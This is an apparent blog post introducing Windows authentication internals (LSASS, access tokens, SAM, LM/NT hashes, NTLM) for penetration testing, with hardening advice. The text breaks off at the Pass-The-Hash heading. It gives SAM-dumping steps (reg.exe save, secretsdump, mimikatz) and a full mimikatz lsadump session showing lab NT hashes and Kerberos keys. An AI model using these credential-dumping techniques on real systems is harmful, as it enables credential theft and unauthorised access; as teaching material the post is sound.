










---

layout: post
title: Playing With Windows Security - Part 1
lang: en
lang-ref: playing-windows-sec
categories: [Windows security]
tags: [windows, cybersecurity, mimikatz, pass-the-hash, red team, pentesting]

---

# Windows Authentication.

In this first part of Windows hacking we will be covering aspects related on how Windows authentication works. I'm coming from Linux ecosystem so sometimes I will try to compare how Windows works vs how Linux does. If it is your case too, comparing Windows internals with Linux one's could help you (like it was in my case) to better understand some concepts. At the end, an example of Pass-The-Hash using mimikatz will be shown. This post pretends to be an initial guide to Windows penetration testing and Red Team exercises, understanding some key concepts that helps to comprehend how attacks like Pass-The-Hash works. I plan to analyse the obscure functionality of Windows internals in future posts just for fun and profit ;). In the first part we will study a high level view of how Windows performs authentication to later focuse on the NTLM family.

* Windows Logon
* Windows Access Tokens
* Mandatory Integrity Control
* Single-Sign-On
* The SAM
* LM and NT hashes
* LM, NTLMv1 and NTLMv2 authentication protocols
* Pass-The-Hash
* Cracking hashes

# Windows Logon

## Login on Linux
In Linux, abstracting the whole PAM process, the authentication is simple. You have users declared in **/etc/passwd**, normally shadow passwords is used, so users hashed passwords are stored in **/etc/shadow**. When you try to login, a user and a password are typed, looking at **/etc/passwd** the login process knows wich hashing algorithm to use and the salt, with that information it can hash your entered password and check that one with the stored one, if they are equal then you are in. Other information needed like user **id**, shell or user home path is read from **/etc/passwd**. Those are regular text files that you can read with *cat* -having enough permissions, of course-, for example. The login process, that was running as root, will set things accordingly and finally call **setuid** setting the **uid** and **euid** to the **id** of the user that you have logged in in with and **gid** and **geid** to the **gid** of the primary group of the user. There are more things that the login process has to take into account, effective user id, user groups, env variables... But that is for another day, that is a high level view of the whole process. So basically at the end in Linux we only have an integer representing our scope. The id 0, the id of root, whuch is special because each process with and effective id of 0 is privileged and can do whatever they want and the rest of identifiers, which are unprivileged, are used to check permissions with every file. 

## Login on Windows
On Windows, **Winlogon** is responsible of the login process. Linux PAM modules are the equivalente of Windows Credential Providers. Each time a user is logged in, a Logon session is created and a corresponding Access Token which is associted to that Logon session. This Access Token object has some interested things, that we will analys it in more detailt in the next chapter. Each logon session creates at least an Access Token. We can list currently logon sessions using Sysinternals' "logonsessions64.exe". In the image below an example is given listing currently logon sessions on a Windows 10 machine. As you can see user **Peter** has two interactive sessions while actually this user has logged in once. That is because the UAC and because this user is an Administrator, it will be explained better in *Mandatory Integrity Control* section. Each session has an id, a LUID -Locally unique identifier-, LSA, the Local Security Authority, uses this information to map each logon session with its credentials stored in memory. Each process created inherit the *Acces Token* of the process calling [CreateProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa){:target="\_blank"} or a specific token with [CreateProcessWithToken](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw){:target="\_blank"}.

[](../../assets/img/playing-win-sec/logon-sessions.png){:target="\_blank"}

## LSA

The Local Security Authority, LSA, is the subsystem that creates and manages this logon sessions, authenticating users, amongs its security information and other data. It is the director of the Windows Authentication system. Among its capabilities:

* Manage local security policy. Like password expiration.
* Creates access tokens.
* Provides the necessary services for authentication

## LSASS
LSASS is the process that actually implements the actions defined on LSA. We can think LSA like the concept or design and LSASS the implementation. Windows supports some types of authentication methods via the **Security Support Provider Interface** or **SSPI**. The SSPI is an API that provides methods of some **Security Support Provider** or **SSP**, in form of DLL, that implements some authentication algorithm. In that manner, using the SSP API, it is possible to the developer to get abstracted of the obscure whole algorithm process using an SSP.  Some SSPs are:

* Kerberos. The SSP implementing the Kerberos authentication process.
* NTLM. This SSP implments the challenge/response NTLM auth algorithms.
* Digest. This provider implements the Digest Access protocol. Used to authenticate an user by HTTP or SASL. This methods holds the password crypted on memory, but the encryption key is known, so actually it can be considered that Digest stores password in plain text in memory. That's why Mimikatz sometimes can recover plain text passwords, because the Digest SSP is being used.
* Secure Channel. The SSP implementing SSL/TLS protocols.
* Negotiate. SSP used to negotiate an authentication protocol, when it is no sure which one use, client and server need to agreet a common auth method.

More info at Microsoft docs [here](https://docs.microsoft.com/en-us/windows/win32/rpc/security-support-provider-interface-sspi-){:target="\_blank"}.

LSASS creates Logon sessions when a login is verified and create the corresponding access token and Logon session. LSASS is responsible for maintaining this sessions, and each one would have an access token.


# Windows Access Tokens

## What are Windows Access Tokens?
A **Windows Access Token** is and object structure containing security information of a process scope. An access token has the following remarkable information from a the security point of view (more information at [Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens){:target="\_blank"}):

* The SID of the user account.
* SIDs of the groups the user belongs to.
* ID identifying the Logon session. (A logon session creates one access token but an access token can be used by various logon sessions).
* Privileges.
* If it is an impersonation or a primary token.

In Linux everything is a "file", so tasks suchs as changing the timezone are implemented as files. Normal file permissions checks are used to things like that.
[](../../assets/img/playing-win-sec/linux-local-time.png){:target="\_blank"}
To change the localtime, one have to change the **/etc/localtime** symbolic link.

Windows does not follow that philosophy, that is why we have **Privileges**, system-related actions are divided into privileges and an access token has a list of privileges. [Here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants){:target="\_blank"} is a list of all possible privileges. One important to mention is **SE_DEBUG_PRIVILEGE** wich gives the ability to debug another process and thus giving the ability to read its memory, for example. That is how *mimikatz* can dump the security information stored on *lssas.exe* process or how some DLL injection techniques writes to other process memory. When accessing a securable object, Windows will use the SID of the user and the SIDs of the groups to check access vs the DACL, when trying to perform a system-related task, like shutting down the computer, privileges will determine.

A token can be a primaty token or impersonation token, the primary token is the token associated with the process that was inherited at creation time. A process can impersonta another one, it can perform a task with the security context of another one. This can be abused, that is how *meterpreter getsystem* can elevate to *NT Authority\System*, for example.

We can view the security context of a process using *Sysinternals Process Explorer*.
[](../../assets/img/playing-win-sec/proc-exp-example.png){:target="\_blank"}

For example, the *explorer.exe* process with PID 1364 was created through the logon session 55908, that process got a primary access token with the SID of the user Peter, belonging to the groups showed on the image and with some privileges like the one needed for shuting down the computer -although it is currently disabled-.


# Mandatory Integrity Control
In Windows, addiotanally to permissions we have a form of restricting access to securable objects if a process is not running in the required integrity level. Windows defines four integrity levels: **low, medium, high and system**. The integrity level is just like other groups, the SID corresponding to the integrity level and a flag indicating that is a SID of a integriy level is added to access token groups. That is how UAC is implemented and that is why an administrator user creates to logon sessions although you have logged in once with that user. Both logon sessions creates a similar access token, almost the same except that the unprivileged one has in its groups the SID of the medium integrity control and the other has the SID of the high integrity control. When you create a process, the new process is created with the minimum of the user integrity level and the file integrity level. System integrity level is used by Windows system services and low integrity level is used when running a executable with low intregrity level. Some operationes will fail even with enough permission established in the DACL. Imagine that you try to write a file and you have enough permissions to write it but the file level is marked with high integrity level and the process is running in medium one, as you can imagine, the write will fail. File set its integrity level in an entry in the SACL. The level of a file can be set using "*icacls PATH /setintegritylevel L|M|H*".

# Single-Sign-On
Single-Sign-On is a concept widely spreaded, I am sure you have seen at some web page the typical "Log-in with Google". Single-Sign-On refers to login only once and that access is reused without the needed of reentering the login information at another point. Windows implements it storing credentials in memory, *lsass* is the director of SSO. So lsass has credentials stored in memory and when trying to login to some network resource, for example, using NTLMv2 authentication, *lsass* will try to authenticate using the hashes it has stored. That is very powerful, because the cracking of a NT hash is not mandatory, you can use the hash to login to a network resource, this attack is known as **Pass-The-Hash**.

# The SAM
Linux stores users and information about them in **/etc/passwd** which is just a file that you can read and parse easily because it is just text. Windows stores users information and hashes in the **SAM**, or **Security Account Manager**. The SAM is a special file residing at *C:\Windows\system32\config\SAM*. This file is encrypted and not accesible, Windows will fail in an attempt to read it even with the necessary permissions. The **SAM** is also encrypted using the *SYSKEY* that is also encrypted with the *BOOTKEY*, present in the **SYSTEM** file -*C:\Windows\system32\config\SYSTEM*-, blocked too so not accesible -except for NT Authority\System, it can access SAM and SYSTEM from the registry mount points, for example using PsExec.exe -i -s cmd it is possible te get a shell as NT Authority\System-. They are mounted at *HKLM\SAM* and *HKLM\SYSTEM*, using **reg.exe save HKLM\SAM FILE_NAME_TO_SAVE** with administrator privileges it is possible to save the **SAM**. The same can be used to save **SYSTEM**. Now it is possible to dump the hashes using **secretsdump** of [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py){:target="\_blank"}, for example. Another aproach is to use tools like *pwdump*, *samdump2*, boot to Linux and mount the Windows partition to access those file considering the parition is not Bitlocker-encrypted. Mimikatz is also capable too, this is and example using the *kiwi* tool. Some techniches are based on file system filter drivers, like *pwdump7*, other like *mimikatz* becomes **NT Authority\System** so it can access **SAM** and **SYSTEM** files.
```code
Using 'mimikatz.log' for logfile : OK

mimikatz # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

624	{0;000003e7} 1 D 42128     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;0003daa7} 1 F 1817021   	DESKTOP-1L6MJDO\Peter	S-1-5-21-3623154155-2601920244-3614457045-1001	(14g,24p)	Primary
 * Thread Token  : {0;000003e7} 1 D 1958159   	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz # lsadump::sam
Domain : DESKTOP-1L6MJDO
SysKey : 778f94dbe8bd304ee93fc3d1f75ee249
Local SID : S-1-5-21-3623154155-2601920244-3614457045

SAMKey : f2380ff58b02bae7de8f502d9a004cd7

RID  : 000001f4 (500)
User : Administrador

RID  : 000001f5 (501)
User : Invitado

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: d6c3cd7ba08dceaabfc1e8bf0277772e

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 65e1e05750d84270c88a7be57db6c9f2

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : fb0e347db585daa6da7e6debedf7febfab1bf57b68a6476e2dccf432bdcdfeaa
      aes128_hmac       (4096) : 45e55fb7d5c8d75c5d7d428ba25b9ec5
      des_cbc_md5       (4096) : 62e37afd38a816c8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : 62e37afd38a816c8


RID  : 000003e9 (1001)
User : Peter
  Hash NTLM: 7ce21f17c0aee7fb9ceba532d0546ad6

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 5682742cf07afea3995641c57d910899

* Primary:Kerberos-Newer-Keys *
    Default Salt : DESKTOP-1L6MJDOPeter
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 216d42d2809357b8a21c99a1a3553751c6035f2c542e2197fb26d365104fdcd7
      aes128_hmac       (4096) : dc7a8cb8c90ded7ae0033e6711d70adf
      des_cbc_md5       (4096) : 523885e0a2fe5b1c
    OldCredentials
      aes256_hmac       (4096) : 546a1f12ede2de2c7ef888e191bd783f61dfb11d57c8cf1ac2ac9a704bccb8fb
      aes128_hmac       (4096) : 04aefe0e7fd029d47bc46c94f8202bec
      des_cbc_md5       (4096) : c7a126b5e37a43f7
    OlderCredentials
      aes256_hmac       (4096) : 546a1f12ede2de2c7ef888e191bd783f61dfb11d57c8cf1ac2ac9a704bccb8fb
      aes128_hmac       (4096) : 04aefe0e7fd029d47bc46c94f8202bec
      des_cbc_md5       (4096) : c7a126b5e37a43f7

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DESKTOP-1L6MJDOPeter
    Credentials
      des_cbc_md5       : 523885e0a2fe5b1c
    OldCredentials
      des_cbc_md5       : c7a126b5e37a43f7


mimikatz # 
```
The NT hash of the user **Peter** is **7ce21f17c0aee7fb9ceba532d0546ad6**, the Administrator user is disabled and does not have any credentials configured... That is some of the info we have successfully extracted. The **LM** hash is not saved by default in newer Windows versions.

# LM and NT hashes
First Windows password hashing algorithm was **LM**, sort of **Lan Manager**, it was developed by Microsoft and IBM around 1985. This hashing algorithm is now out-dated and you should disable it using the group policy or editing the registry, although is disabled by default since Windows Vista. This hashing algorithm with nowadays computation power is easy to crack, that is why it is insecure.

### How LM hashing works
**LM** works that way:
* First of all, the maximum length is 14 chars. The alphabet is ASCII. If the password is less than 14 chars it is padded using null bytes.
* After trunking to 14 chars, the password is divided in two blocks of 7 chars each.
* The password is then uppercased.
* Each part is used as a password to DES-56 bit encrypt the string "KGS!@#$%".
* The final hash is this two results concatenated.

The ASCII character set is reduced because of uppercasing, if the password contains less than 14 chars null bytes are used, no salt implied so a rainbow attack is possible, you have just to crack two passwords of 7 chars not the 14 chars password... Those are some reasons why **LM** is weak vs dictionary attacks.

## How NT hashing works
**NT** uses uppercase and lowercase characters and it is 128 Unicode -UTF-16 LE- characters long. This is hashed using *MD4* and the result is the NT hash.

# LM, NTLMv1 and NTLMv2 authentication protocols
**NTLM** are challenge/response authentication protocols. **LM** and **NTLMv1** are almost the same, execpt the first uses **LM** hashes and NTLMv1 **NT** hashes. Challenge response algorithms prove that a user knows the password and can access a resource without sending the password over the network. Some random bytes are generetad, id est, the challenge -8 bytes in the case of NTLMv1 and NTLMv2-, using this challenge and the password hash some cryptographic operationes are performed on both sides, the client send the response and the server checks that with his one calculated. If they are equal, client has proved he knwos the correct password and the authentication was successful. NTLM responses can be captured using tools like [Responder](https://github.com/SpiderLabs/Responder).

## LM and NTLMv1
The following diagram ilustrates how LM/NTLMv1 calculates the response.
[](../../assets/img/playing-win-sec/ntlmv1-diagram.png){:target="\_blank"}

**LM/NTLMv1** has some weaknesses:
* Any type of salt involved, same hash with same challenge always produce the same response.
* The three 7-byte parts can be attacked separately. Specially the last is so weak because the last 5 bytes are always null.
* DES is not strong nowadays

## NTLMv2
The following diagram ilustrates the flow of calculating the response.
[](../../assets/img/playing-win-sec/ntlmv2-diagram.png){:target="\_blank"}
NTLMv2 mitigates some of the frailties of NTLMv1. For example, now the same password and same challenges produce differents responses because of timestamp in "Client challenge 2". This mitigates replay attacks too. Also NTLMv2 is more robusts vs brute force attacks because of using **HMAC-MD5**.

## Hardening
You should disable NTLMv1, LM and LM hashes, a modern Windows ecosystem can use just NT hashes and NTLMv2.

### Disabling LM hash using group policy:
* Run secpol.msc
* Enable **Network security: Do not store LAN Manager hash value on next password change.** at **Local Policies->Security Options**.

[](../../assets/img/playing-win-sec/group-policy-no-lm.png){:target="\_blank"}

### Disabling LM hash using a registry entry:
* Create a **NoLMHash** key at **HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa**

[](../../assets/img/playing-win-sec/registry-no-lm.png){:target="\_blank"}

### Disabling NTLMv1 and LM
* Run secpol.msc
* Modify **Network Security: LAN Manager authentication level.** at **Local Policies->Security Options**

[](../../assets/img/playing-win-sec/group-policy-no-ntlmv1.png){:target="\_blank"}
There are five levels, described in this [table](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level#possible-values){:target="\_blank"}.

Also it is possible to establish this policy using the registry, a key **LmCompatibilityLevel** should be created at **HKLM\System\CurrentControlSet\Control\Lsa** with a value between 0-5 as described in the table referenced before.

# Pass-The-Hash
